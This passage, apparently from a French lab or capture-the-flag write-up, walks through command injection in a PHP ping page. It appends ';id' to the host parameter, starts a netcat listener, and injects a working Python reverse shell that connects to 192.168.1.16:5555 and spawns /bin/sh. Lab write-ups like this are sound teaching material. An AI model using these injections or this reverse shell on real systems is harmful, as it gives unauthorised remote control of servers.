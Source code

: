 ```
http://localhost:8888/ping/ping.php?host=127.0.0.1

Use the host parameter&ltpre>Array
(
    [0] => PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
    [1] => 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.011 ms
    [2] => 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.038 ms
    [3] => 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.038 ms
    [4] => 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.040 ms
    [5] => 
    [6] => --- 127.0.0.1 ping statistics ---
    [7] => 4 packets transmitted, 4 received, 0% packet loss, time 3054ms
    [8] => rtt min/avg/max/mdev = 0.011/0.031/0.040/0.012 ms
)
&lt/pre>
```

On va donc pourvoir se ping nous même avec cette commande. Le résultat nous est ensuite affiché. On commence à être rodés là dessus et on se dit directement qu'il doit y avoir une faille quelque part. Que se passe-t-il si j'ajoute une commande derrière l'adresse IP que l'on doit renseigner ?

```
http://localhost:8888/ping/ping.php?host=127.0.0.1;id

Use the host parameter&ltpre>Array
(
    [0] => PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
    [1] => 64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.011 ms
    [2] => 64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.034 ms
    [3] => 64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.042 ms
    [4] => 64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.036 ms
    [5] => 
    [6] => --- 127.0.0.1 ping statistics ---
    [7] => 4 packets transmitted, 4 received, 0% packet loss, time 3054ms
    [8] => rtt min/avg/max/mdev = 0.011/0.030/0.042/0.011 ms
    [9] => uid=33(www-data) gid=33(www-data) groups=33(www-data)
)
&lt/pre>
```

Une nouvelle ligne est apparue et on a bien le résultat de notre commande.

Il ne nous reste plus qu'à obtenir un reverse shell sur la machine de cette manière. J'ai tenté une première fois avec ``netcat`` mais aucun résultat. J'ai donc enchaîné sur ``python3`` :

On n'oublie pas de se mettre en mode écoute avant avec ``nc`` :

```
nc -lnvp 5555
```

Puis on **exécute** notre **payload** via l'URL (attention à bien changer les données, notamment le port et l'adresse IP) :

```
http://localhost:8888/ping/ping.php?host=127.0.0.1;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.16",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

